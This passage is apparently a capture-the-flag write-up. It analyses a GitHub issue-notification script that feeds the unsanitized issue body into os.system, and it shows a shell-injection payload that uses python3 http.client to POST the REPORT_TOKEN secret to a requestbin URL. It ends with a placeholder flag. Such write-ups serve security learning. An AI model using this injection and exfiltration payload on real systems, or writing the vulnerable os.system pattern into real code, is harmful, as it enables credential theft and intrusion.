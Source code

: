 ```python

def issue_notify(title, body, repo):
    # just echo the body into the report repo at /tmp and our scraper script will pick them up and mail them out to staff@
    notify_id = str(uuid.uuid4())
    # only notify on very important issues to reduce spam!
    if 'very important' in title:
        os.system('echo "%s" > /tmp/%s' % (body, notify_id))
    return

def run():
    issue_notify(getenv('ISSUE_TITLE'), getenv('ISSUE_BODY'), Github(getenv('REPORT_TOKEN')))
    return

try:
    sys.exit(run())
except Exception as e:
    print("Error: {0}".format(e))
    sys.exit(1)
```

Woah hold on just one second! I see a call to `os.system`, with unsanitized user input no less! All we need to do is open an issue on ekoparty2020/ekolabs with "very important" in the title and we can escape `echo`'s quotes and run our own command by putting something like `" command #` in the body.

So now that we can run shell commands, how can we get their output? There are a few ways you could do this, including setting up a reverse shell, but we only really need one output (the REPORT_TOKEN env var) so I just set up a [request bin](https://requestbin.com/) to record an `http` request. We don't know if `curl` is installed on the server, so instead we can make our request with a built-in `python` module whe we know they have installed. Here's what my payload looked like:
```
" && python3 -c "import http.client;c=http.client.HTTPSConnection(\"<requestbin url>");c.request(\"POST\", \"/\", \"{\\\"message\\\":\\\"$REPORT_TOKEN\\\"}\", {\"Content-Type\": \"application/json\"})" #
```
here's the inline `python` formatted a bit nicer:
```python
import http.client

c = http.client.HTTPSConnection("<requestbin url>")
c.request("POST", "/", "{\"message\":\"<report token>\"}", {"Content-Type": "application/json"})
```
A few minutes later my request bin recieved a request and... well I forgot to keep track of the flag somewhere so here's a fake one :)
```
EKO{7hi5_15_f0r_r341_th3_r341_f14g_0k4y}
```
